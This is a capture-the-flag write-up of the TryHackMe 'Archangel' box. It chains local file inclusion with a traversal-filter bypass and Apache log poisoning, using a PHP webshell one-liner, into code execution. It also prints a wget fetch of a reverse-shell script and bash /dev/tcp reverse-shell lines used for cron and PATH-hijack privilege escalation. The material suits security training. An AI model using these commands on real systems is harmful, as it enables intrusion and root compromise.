

# TryHackMe (Archangel)

## Challenge: 

## Solution: 
This challenge requires us to use Local File Inclusion (LFI) to obtain Remote Code Execution (RCE), perform horizontal and vertical privilege escalation.

To start off, I ran `threader3000` which showed that ports 22 and 80 were open. Next, I ran an Nmap scan on the 2 open ports and found the following.

Heading to the website, I found that there exists a `mafialive.thm` domain.

Suspecting that the web server could be configured to accept [virtual hosts](https://httpd.apache.org/docs/2.4/vhosts/examples.html), I added the newly found domain to resolve to the box's IP address. 

Afterwards, I visited `mafialive.thm` site which gave me the first flag.

Moving on I ran dirsearch and found a suspicious endpoint called `test.php`. 

Clicking on the button, we were redirected to the site `mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`. 

This seems to be vulnerable to [LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter). Then, I tried to view the contents of `test.php`. However, I was unable to do so as seen from the screenshot below.

Using the PHP Filter wrapper to encode the contents of `test.php` in Base64, I was able to obtain the following.

Decoding the exfiltrated base64 encoded string, I obtained `test.php` script. The blacklist blocks strings that contain `../..` or strings that do not include `/var/www/html/development_testing`.

To get around the `../..` blacklist, I could substitute it with `.././..` instead. As such, I was able to view `/etc/passwd` using by giving the GET parameter as `/var/www/html/development_testing/..//..//..//..//etc/passwd`.

Moving on, I decided to use Log Poisoning to obtain RCE. Firstly, I needed to make sure that I was able to view the Apache access log files. Using the command `/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log`, I was able to view the log files.

Next, I put in simple PHP webshell using the PHP one-liner command `<?php system($_GET['cmd']); ?>`. Using the command `/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=ls`, I was able to view the files in the current directory, proving that RCE is possible.

Now, it is time to obtain a reverse shell. Firstly, I used Pentest Monkey's PHP Reverse Shell Script and served it on my local host. Next, I used `wget` command to allow the web server to obtain a copy of the PHP reverse shell script. The full command I used was `/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php`. 

Next, I used the `cmd=ls` to verify if the PHP reverse shell has been copied. Indeed, it was present in the web server.

Heading to the `php-reverse-shell.php`, I was able to obtain a reverse shell on my Netcat listener.

Heading to the crontab, I saw a scheduled job running `/opt/helloworld.sh` every minute. 

Moving on, I edited `/opt/helloworld.sh` to `0<&196;exec 196<>/dev/tcp/10.11.67.208/8080; sh <&196 >&196 2>&196`. This allowed me to obtain a reverse shell on port 8080.

Next, I found a `secret` folder inside archangel home directory. This contains the `backup` file which has the SUID bit set.

Decompiling the file on IDA Pro, I found that the command `cp /home/user/archangel/myfiles/* /opt/backupfiles`. 

Therefore, I needed to create my own `cp` command which is a reverse shell to obtain root privileges. The `cp` file I created is `0<&196;exec 196<>/dev/tcp/10.11.67.208/4444; sh <&196 >&196 2>&196`. Next, I added the location where I saved the `cp` file as the top of the PATH, allowing our `cp` file to be executed when it is being called.

On my netcat listener, I was able to obtain the root flag. 

